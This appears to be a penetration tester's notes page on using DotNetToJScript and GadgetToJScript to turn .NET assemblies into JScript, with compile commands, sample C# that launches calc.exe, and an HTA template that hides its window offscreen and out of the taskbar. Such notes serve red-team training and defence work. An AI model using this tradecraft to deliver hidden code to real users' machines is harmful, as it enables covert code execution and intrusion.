 # ⭕ JScript

## <mark style="color:red;">WSH</mark>

VBScript and Jscript are executed by the windows script host. they run by the windows scripting host (WSH). they run as a console application (cscript.exe) or a GUI app (wscript.exe). the engines are not implemented in wscript.exe or cscript.exe. but in vbscript.dll and jscript.dll. these are both activeX DLLs which contain activeX objects.

## <mark style="color:red;">DotNetToJScript</mark>

#### References

* [Github repo](https://github.com/tyranid/DotNetToJScript)
* [WhiteOakSecurity](https://www.whiteoaksecurity.com/blog/2020-1-16-advanced-ttps-dotnettojscript-part-1/)

Execute DotNetToJscript.exe and supply it with the ExampleAssembly.dll, specify the output file and the output type:

```
#Sample DLL
#csc.exe /target:library thisfile.cs -o sample.dll

using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace Prog
{
public class Popme
{
  public void Box()
  {
    Process.Start("calc.exe");
    System.Windows.Forms.MessageBox.Show("Hello");
  }
}
}
```

#### <mark style="color:green;">Compile</mark>

```
#Test
DotNetToJScript.exe  -l JScript -o test.js -c <namespace. eg: Popme> sample.dll
Wscript.exe test.js

#For HTA
DotNetToJScript.exe  -l JScript -o output.txt -c <Classname. eg: Popme> sample.dll
#Append : o.<Method Name>();
```

#### <mark style="color:green;">Create HTA</mark>

```
<html>
<head>
<script language="JScript">
window.moveTo(-1337, -2019);
window.blur();
window.resizeTo(2, 4);

<!!! Add Script Here !!!>
</script>
<hta:application caption="no" windowState="minimize" showInTaskBar="no"
                 scroll="no" navigable="no" />
                 <!--  -->
</head>
<body>
</body>
</html>
```

## <mark style="color:red;">GadgetToJScript</mark>

* [Github Repo](https://githubmemory.com/repo/rasta-mouse/GadgetToJScript)

```
#Create a constructor. Save as source.cs

using System;
using System.Diagnostics;

public class Same
 { 
  public Same()
   {
    Process.Start("calc.exe");
   }
 }
```

```
GadgetToJScript.exe -i source.cs -w js -r <Reference assembly> -o out.txt -f
```
